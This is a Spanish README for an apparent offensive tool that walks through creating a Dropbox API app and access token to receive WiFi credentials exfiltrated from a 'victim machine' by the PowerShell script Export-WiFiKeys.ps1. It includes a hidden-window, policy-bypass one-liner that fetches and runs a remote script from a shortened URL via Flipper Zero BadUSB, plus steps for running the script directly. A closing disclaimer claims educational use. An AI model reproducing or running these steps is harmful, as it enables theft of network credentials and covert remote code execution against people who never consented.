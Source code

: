 # README: Creación y Configuración de una API de Dropbox

## Introducción
Este documento proporciona una guía paso a paso para crear y configurar una API de Dropbox. Se utilizará para automatizar la transferencia de archivos, en particular para la extracción y carga de credenciales WiFi desde un sistema comprometido a Dropbox mediante un script de PowerShell y Flipper Zero.

---

## 1. Creación de una Aplicación en Dropbox

### Paso 1: Acceder a Dropbox Developer
1. Ingresa a [Dropbox Developers](https://www.dropbox.com/developers/apps).
2. Inicia sesión con tu cuenta de Dropbox.
3. Haz clic en "Create App".
   
![tuto](TutoDropbox/IMG/1.jpg)

### Paso 2: Configurar la Aplicación
1. Selecciona "Scoped access".

   ![tuto1](TutoDropbox/IMG/2.jpg)
3. En "Choose the type of access you need", elige "App folder".
4. Asigna un nombre a la aplicación (Ejemplo: `bat_Back_USB`).
5. Haz clic en "Create App".

---

## 2. Configurar Permisos de la Aplicación
![tuto2](TutoDropbox/IMG/3.jpg)

### Paso 3: Editar Permisos
1. Dirígete a la pestaña "Permissions".
2. Marca las opciones:
   - "Edit content"
   - "View content"
3. Haz clic en "Submit" para guardar los cambios.
![tuto3](TutoDropbox/IMG/4.jpg)
---

## 3. Obtener y Configurar el Access Token
![tuto4](TutoDropbox/IMG/5.jpg)
### Paso 4: Generar Access Token
1. Ve a la pestaña "Settings" de tu aplicación.
2. Busca la sección "OAuth 2".
3. Haz clic en "Generate Access Token".
4. Copia el token generado.
![tuto5](TutoDropbox/IMG/6.jpg)
### Paso 5: Configurar el Script
1. Abre el archivo `Export-WiFiKeys.ps1`.
2. Busca la línea `db = ""` (aproximadamente en la línea 49).
3. Pega el Access Token entre las comillas dobles.
4. Guarda el archivo.

---

## 4. Métodos de Ejecución del Script
El script `Export-WiFiKeys.ps1` tiene la funcionalidad incorporada para exfiltrar credenciales y subirlas a Dropbox. Se puede ejecutar de dos formas:

### Opción 1: Ejecutar desde Flipper Zero (BadUSB)
1. Guarda el script en Flipper Zero.
2. Configura la variable `db` con el Access Token de Dropbox en el script.
3. Carga el script a través de la interfaz del dispositivo.
4. Abre una terminal en el Flipper Zero y ejecuta el siguiente comando:

   ```powershell
   powershell -w h -ep bypass $db='API_TOKEN';irm https://goo.su/x3RyN | iex
   ```

### Opción 2: Descargar y Ejecutar el Script en la Máquina Víctima
1. Descarga el archivo `Export-WiFiKeys.ps1` en la máquina víctima.
2. Configura la variable `db` con el Access Token de Dropbox en el script.
3. Abre PowerShell con permisos de administrador.
4. Navega al directorio donde se encuentra el script.
5. Ejecuta el script:

   ```powershell
   .\Export-WiFiKeys.ps1
   ```

En ambas opciones, el script extraerá las credenciales WiFi y las subirá automáticamente a Dropbox.

---

## Imágenes de Referencia

1. **Pantalla de creación de la aplicación**.
2. **Selección del tipo de acceso y nombre de la aplicación**.
3. **Configuración de permisos en la pestaña "Permissions"**.
4. **Generación del Access Token en la pestaña "Settings"**.
5. **Edición del archivo `Export-WiFiKeys.ps1` con el token copiado**.
6. **Ejecución del script desde Flipper Zero o Windows**.

---

## Notas Importantes
- Asegúrate de tener suficiente espacio en tu cuenta de Dropbox para el archivo ZIP generado.
- El script debe ejecutarse con permisos de administrador en Windows para acceder a las credenciales WiFi.
- Usa este script solo en entornos de prueba con permisos explícitos.

## Licencia y Descargo de Responsabilidad
Este proyecto está licenciado bajo los términos de la licencia MIT. Consulta el archivo LICENSE para más detalles.

🚨 **Descargo de Responsabilidad**: El uso indebido de este código puede estar sujeto a acciones legales. El usuario es responsable de cumplir con todas las leyes locales y regulaciones aplicables. Este proyecto debe utilizarse únicamente con fines educativos y en entornos de pruebas con permisos explícitos.

